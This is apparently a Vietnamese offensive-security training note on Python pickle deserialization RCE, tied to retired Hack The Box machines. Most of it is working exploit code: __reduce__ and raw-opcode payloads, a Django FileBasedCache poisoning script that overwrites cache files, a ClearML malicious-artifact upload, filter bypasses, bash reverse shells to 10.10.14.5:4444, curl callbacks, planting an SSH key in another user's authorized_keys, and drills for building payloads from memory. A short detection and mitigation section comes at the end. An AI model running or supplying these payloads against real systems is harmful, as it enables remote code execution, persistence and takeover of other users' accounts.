

> **Prerequisites**: [[01-serialization-internals|01. Serialization Internals]]
> **Objectives**:
> - Craft payload khai thác `__reduce__` không cần framework
> - Hiểu pickle opcode stream và inject payload thủ công bằng opcode
> - Khai thác Django FileBasedCache pickle poisoning
> - Bypass các restriction patterns: RestrictedUnpickler cơ bản
>
---

## Điều kiện khai thác

> [!note] Điều kiện bắt buộc
> - App gọi `pickle.loads()`, `cPickle.loads()`, hoặc tương đương với dữ liệu attacker kiểm soát
> - Attacker có thể đưa bytes tùy ý vào input point đó
>
> [!note] Điều kiện Django cache attack
> - Django app dùng `FileBasedCache` backend
> - Cache directory (`/var/tmp/django_cache/` hoặc tương tự) có thể ghi được từ một user khác trên hệ thống (post-shell lateral movement)
> - Web process chạy dưới user khác với user attacker đang có
>
---

## Cơ chế tấn công

![[img-08-pickle-opcode-flow.svg]]
*Hình 1: Pickle VM opcode execution model — từ GLOBAL opcode đến REDUCE trigger RCE*

### `__reduce__` — Con đường đơn giản nhất

Khi Python pickle serialize một object, nó gọi `__reduce__()` nếu method này tồn tại. `__reduce__()` trả về tuple `(callable, args)`. Khi `pickle.loads()` chạy, nó gọi `callable(*args)`.

```python
import pickle, os

class RCE:
    def __reduce__(self):
        # Trả về: (os.system, ("id",))
        # → pickle.loads() sẽ gọi os.system("id")
        return (os.system, ("id",))

# Serialize
payload = pickle.dumps(RCE())
print(payload)
# b'\x80\x04\x95...\x8c\x02nt\x8c\x06system\x93\x8c\x02id\x85R.'

# Deserialize → gọi os.system("id") ngay lập tức
pickle.loads(payload)
```

**Vấn đề với `os.system`**: Không capture output. Dùng `subprocess.check_output` hoặc reverse shell thay thế:

```python
import pickle, os, base64

class RevShell:
    def __reduce__(self):
        cmd = "bash -c 'bash -i >& /dev/tcp/10.10.14.5/4444 0>&1'"
        return (os.system, (cmd,))

payload = base64.b64encode(pickle.dumps(RevShell()))
print(payload.decode())
```

### Pickle Opcode Injection — Level 2

Hiểu opcode cho phép viết payload không cần class:

```python
import pickle, pickletools

# Xây payload bằng opcode trực tiếp
# GLOBAL 'os' 'system' → push os.system lên stack
# SHORT_BINUNICODE 'id' → push "id"
# TUPLE1 → tạo tuple ('id',)
# REDUCE → gọi os.system('id')
# STOP

payload = (
    b'\x80\x04'      # PROTO 4
    b'\x95\x17\x00\x00\x00\x00\x00\x00\x00'  # FRAME
    b'\x8c\x02os'    # SHORT_BINUNICODE 'os'
    b'\x8c\x06system'  # SHORT_BINUNICODE 'system'
    b'\x93'          # STACK_GLOBAL: push os.system
    b'\x8c\x02id'    # SHORT_BINUNICODE 'id'
    b'\x85'          # TUPLE1: ('id',)
    b'R'             # REDUCE: call os.system('id')
    b'.'             # STOP
)

# Disassemble để verify
pickletools.dis(payload)
# Kết quả:
#     0: \x80 PROTO      4
#    ...
#    22: R    REDUCE
#    23: .    STOP
```

**Công cụ tự động hơn — dùng `pickle` module trực tiếp**:

```python
import pickle, os

# Python 2 style (cPickle compatible)
PYTHON2_PAYLOAD = b"cos\nsystem\n(S'id'\ntR."

# Python 3 style
import pickletools
malicious = pickle.dumps(type('X', (), {'__reduce__': lambda s: (os.system, ('id',))})())
pickletools.dis(malicious)
```

### Django FileBasedCache Pickle Poisoning

Django's `FileBasedCache` lưu cache entries dưới dạng pickle files trong `/var/tmp/django_cache/` (hoặc config path). Files có extension `.djcache`.

**Attack scenario** (post-shell, lateral movement):

```python
# exploit.py — chạy sau khi đã có shell với user thấp hơn
import pickle, os, hashlib

# Bước 1: Tìm cache directory
# Thường tại: /var/tmp/django_cache/ hoặc trong settings.py
import glob
cache_files = glob.glob('/var/tmp/django_cache/**/*.djcache', recursive=True)
print(f"Found {len(cache_files)} cache files")

# Bước 2: Build malicious pickle payload
class PoisonPayload:
    def __reduce__(self):
        return (os.system, (
            'bash -c "bash -i >& /dev/tcp/10.10.14.5/4444 0>&1"',
        ))

# Bước 3: Django cache file format
# Format: pickled tuple (version, expires_time, value)
# Khi web app access cache entry, nó loads pickle → RCE
import time

def make_djcache_payload():
    # Django cache format: header + pickled content
    payload_obj = PoisonPayload()
    # Django wraps trong tuple: (version, expires, pickled_value)
    # Đơn giản nhất: ghi thẳng pickle bytes, Django sẽ load
    return pickle.dumps(payload_obj, protocol=2)

malicious = make_djcache_payload()

# Bước 4: Overwrite cache files
for cache_file in cache_files:
    try:
        with open(cache_file, 'wb') as f:
            f.write(malicious)
        print(f"Poisoned: {cache_file}")
    except PermissionError:
        print(f"Cannot write: {cache_file}")

# Bước 5: Trigger — access page/endpoint that reads cache
# Ví dụ: curl http://localhost/explore → đọc cache → loads pickle → RCE
```

**HTB HackNet pattern**:

```python
# Trên HTB HackNet, Django cache dir world-writable
# Attacker user mikey có thể ghi vào cache
import pickle, os

class Exploit:
    def __reduce__(self):
        # Ghi SSH key vào authorized_keys của user sandy
        cmd = 'mkdir -p /home/sandy/.ssh && echo "ssh-ed25519 AAAA...KEY" >> /home/sandy/.ssh/authorized_keys'
        return (os.system, (cmd,))

payload = pickle.dumps(Exploit(), protocol=2)

# Ghi đè tất cả .djcache files
import glob
for f in glob.glob('/var/tmp/django_cache/**/*.djcache', recursive=True):
    open(f, 'wb').write(payload)
    print(f"Poisoned {f}")

# Trigger bằng cách reload /explore page → Django đọc cache → RCE as sandy
```

### ClearML Pickle Attack (HTB Blurry pattern)

ClearML (ML experiment tracking) store artifacts dưới dạng pickle. Khi server download và load artifact → RCE.

```python
# Bước 1: Tạo payload file
import pickle, os

class RunCommand:
    def __reduce__(self):
        return (os.system, ('ping -c 1 10.10.14.5',))

with open('pickle_artifact.pkl', 'wb') as f:
    pickle.dump(RunCommand(), f)

# Bước 2: Upload lên ClearML
from clearml import Task

task = Task.init(project_name="Black Swan", task_name="0xdf_test")
task.upload_artifact(name="sploit", artifact_object="pickle_artifact.pkl",
                     auto_pickle=False)

# Bước 3: Update artifact type thành "pickle" (bắt buộc để server auto-load)
# Dùng ClearML API /tasks.add_or_update_artifact
# type_data.content_type = "application/python-pickled"

# Bước 4: Đánh dấu task "review" → admin bot tự động load artifact
task.add_tags(["review"])
```

---

## Quy trình tấn công

**Môi trường giả định**: Flask app tại `http://target.htb`, cookie `user_data` decode ra pickle bytes.

**Bước 1 — Xác nhận pickle serialization**

```bash
# Decode cookie
COOKIE="gASVHgAAAAAAAACMA29zl4wGc3lzdGVtlJOUhJRSlC4="
python3 -c "
import base64, pickletools
data = base64.b64decode('$COOKIE')
try:
    pickletools.dis(data)
    print('IS PICKLE')
except:
    print('Not pickle, checking...')
    print(data[:10].hex())
"
```

> **Expected output**: `PROTO 4` và opcode listing → xác nhận pickle format. Hoặc hex `8004` / `8002` là pickle protocol marker.
>
**Bước 2 — Build payload**

```python
# payload_builder.py
import pickle, os, base64

class RCE:
    def __reduce__(self):
        # DNS OOB test trước (safe)
        return (os.system, ("curl http://10.10.14.5:8080/test",))

payload = base64.b64encode(pickle.dumps(RCE())).decode()
print(f"Payload: {payload}")
```

```bash
python3 payload_builder.py
# Output: gASVPwAAAAAAAACMA29zlJOUhJRSlC4=...
```

> **Expected output**: Base64-encoded pickle payload.
>
**Bước 3 — OOB test trước khi RCE**

```bash
# Start http.server
python3 -m http.server 8080 &

# Inject OOB payload
PAYLOAD=$(python3 payload_builder.py)
curl -s http://target.htb/ -H "Cookie: user_data=$PAYLOAD"

# Check http.server log
# Expected: 10.10.10.X - - "GET /test HTTP/1.1" 200
```

> **Expected output**: HTTP request từ target IP → RCE confirmed.
>
**Bước 4 — Reverse shell**

```python
# payload_revshell.py
import pickle, os, base64

class RevShell:
    def __reduce__(self):
        cmd = "bash -c 'bash -i >& /dev/tcp/10.10.14.5/4444 0>&1'"
        return (os.system, (cmd,))

payload = base64.b64encode(pickle.dumps(RevShell())).decode()
print(payload)
```

```bash
nc -lnvp 4444 &
PAYLOAD=$(python3 payload_revshell.py)
curl -s http://target.htb/ -H "Cookie: user_data=$PAYLOAD"
```

> **Expected output**: Reverse shell kết nối vào nc listener.
>
---

## Biến thể & Bypass

### Bypass filter kiểm tra prefix

Nếu app check `data.startswith(b'\x80')`:

```python
# Protocol 0 (ASCII-based) — không bắt đầu bằng \x80
payload_p0 = pickle.dumps(RCE(), protocol=0)
# Output: "cos\nsystem\n(S'id'\ntR."
# Không có \x80 bytes → bypass \x80 check
```

### Multi-line opcode injection (khi chỉ một phần user-controlled)

Nếu chỉ kiểm soát một field trong serialized object lớn hơn:

```python
# Nếu app serialize {'key': USER_INPUT} và restore với loads()
# Và USER_INPUT là bytes, có thể inject REDUCE opcode vào cuối bytes

# Dùng pickletools để craft payload nhỏ nhất
import struct
def make_minimal_payload(cmd):
    return (
        b'\x80\x02'   # PROTO 2 (tương thích rộng)
        b'c__builtin__\nexec\n'  # GLOBAL __builtin__.exec
        b'(' + cmd.encode() + b'\n'  # MARK + string
        b'tR'         # TUPLE + REDUCE
        b'.'
    )
```

### `subprocess` thay `os.system` để capture output

```python
import pickle, subprocess, base64

class RCECapture:
    def __reduce__(self):
        return (subprocess.check_output, (["id"],))

payload = pickle.dumps(RCECapture())
result = pickle.loads(payload)
print(result)  # b'uid=0(root)...\n'
```

---

## Cây quyết định



---

## Command Cheatsheet

**Build payloads**

```python
# Basic RCE payload — dùng os.system
import pickle, os, base64
class X:
    def __reduce__(self): return (os.system, ("id",))
print(base64.b64encode(pickle.dumps(X())).decode())

# Reverse shell
import pickle, os, base64
class X:
    def __reduce__(self): return (os.system, ("bash -c 'bash -i >& /dev/tcp/LHOST/LPORT 0>&1'",))
print(base64.b64encode(pickle.dumps(X())).decode())

# Protocol 0 (bypass \x80 check)
import pickle, os
class X:
    def __reduce__(self): return (os.system, ("id",))
print(pickle.dumps(X(), protocol=0))

# One-liner
python3 -c "import pickle,os,base64; print(base64.b64encode(pickle.dumps(type('X',(object,),{'__reduce__':lambda s:(os.system,('id',))})())).decode())"
```

**Disassemble và analyze**

```bash
# Disassemble payload
python3 -c "
import pickle, pickletools, base64
data = base64.b64decode('COOKIE_VALUE')
pickletools.dis(data)
"

# Check protocol
python3 -c "
import pickle, base64
data = base64.b64decode('COOKIE_VALUE')
print(f'Protocol: {data[1] if data[0]==0x80 else 0}')
print(f'First bytes hex: {data[:4].hex()}')
"
```

**Django cache poisoning**

```bash
# Tìm cache files
find / -name "*.djcache" 2>/dev/null
find /var/tmp /tmp -name "*.djcache" 2>/dev/null

# Kiểm tra permissions
ls -la /var/tmp/django_cache/

# Poison tất cả
python3 -c "
import pickle, os, glob
class P:
    def __reduce__(self): return(os.system,('id',))
payload = pickle.dumps(P(),protocol=2)
for f in glob.glob('/var/tmp/django_cache/**/*.djcache', recursive=True):
    open(f,'wb').write(payload)
    print(f'Poisoned {f}')
"
```

---

## Daily Drill

**Thời gian**: 15–20 phút/ngày trong 7 ngày.

**Drill 1 — Nhận biết pickle từ cookie**
Mục tiêu: decode cookie và xác nhận pickle trong 10 giây.

```bash
python3 -c "
import base64, pickletools
data = base64.b64decode('INSERT_COOKIE_HERE')
print('Bytes:', data[:4].hex())
# 8004, 8003, 8002, 8001, 8000 → pickle protocol
"
```

Luyện cho đến khi: nhận biết `80 04` / `rO0A` / `O:` trong 3 giây.

**Drill 2 — Build payload từ bộ nhớ**
Mục tiêu: viết full payload builder trong dưới 60 giây.

```python
import pickle,os,base64
class X:
    def __reduce__(self): return(os.system,("id",))
print(base64.b64encode(pickle.dumps(X())).decode())
```

Luyện cho đến khi: gõ script này từ bộ nhớ hoàn toàn.

**Drill 3 — Full pipeline: build → OOB → shell**
Mục tiêu: từ "biết target dùng pickle" đến confirm RCE trong dưới 3 phút.

```bash
# 1. Build OOB payload
python3 -c "import pickle,os,base64; print(base64.b64encode(pickle.dumps(type('X',(object,),{'__reduce__':lambda s:(os.system,('curl http://10.10.14.5:8080/ping',))})())).decode())"
# 2. Start server
python3 -m http.server 8080 &
# 3. Inject và check callback
```

Luyện cho đến khi: pipeline chạy smooth không lỗi.

---

## Phát hiện & Phòng thủ

> [!warning] Detection Indicators
> **Network**: Outbound HTTP/DNS từ web process đến unknown hosts — OOB test
> **Process**: Web process (gunicorn/uwsgi) spawn bash/sh subprocess
> **Files**: `.pkl` files trong upload directories với suspicious content
> **Cache**: `.djcache` files modified timestamp bất thường; mtime gần đây khi không có activity
> **Logs**: `PickleError` hoặc `UnpicklingError` — attacker đang probe với broken payloads
>
> [!note] Mitigation
> - **Không dùng pickle với untrusted data** — Python docs tự cảnh báo điều này
> - Dùng `json`, `msgpack`, `protobuf` thay thế cho serialization
> - Nếu bắt buộc dùng pickle: implement `RestrictedUnpickler` với whitelist (xem bài 11)
> - Django cache: set cache directory permissions nghiêm ngặt — chỉ web user được ghi
> - ML models: dùng `torch.load(weights_only=True)` (PyTorch 2.0+); tránh `joblib.load` với untrusted files
> - Scan upload directories định kỳ: `file *.pkl` để detect executable pickle files
>
---

## Lab Thực hành

| Platform | Machine | Kỹ thuật |
|----------|---------|---------|
| HTB | **Canape** (Retired) | Flask cPickle deserialization RCE |
| HTB | **DevOops** (Retired) | Python pickle RCE qua XML endpoint |
| HTB | **Blurry** (Retired) | ClearML CVE-2024-24590 pickle artifact |
| HTB | **HackNet** (Retired) | Django FileBasedCache pickle poisoning |
| HTB | **Developer** (Retired) | Django pickle session deserialization |

---

## Field Manual Entry

> [!abstract] Python Pickle RCE — Quick Reference
> **Detect**: Base64 decode cookie → bytes `\x80\x04` hoặc `\x80\x02` → pickle protocol
> **Build**: `python3 -c "import pickle,os,base64; print(base64.b64encode(pickle.dumps(type('X',(object,),{'__reduce__':lambda s:(os.system,('CMD',))})())).decode())"`
> **Protocol 0 bypass**: `pickle.dumps(obj, protocol=0)` → ASCII format, không có `\x80`
> **Django cache**: Tìm `.djcache` → overwrite với pickle payload → trigger qua HTTP request
> **Disassemble**: `python3 -c "import pickletools,base64; pickletools.dis(base64.b64decode('PAYLOAD'))"`
> **Ref**: [[08-python-pickle-rce|08. Python Pickle RCE]]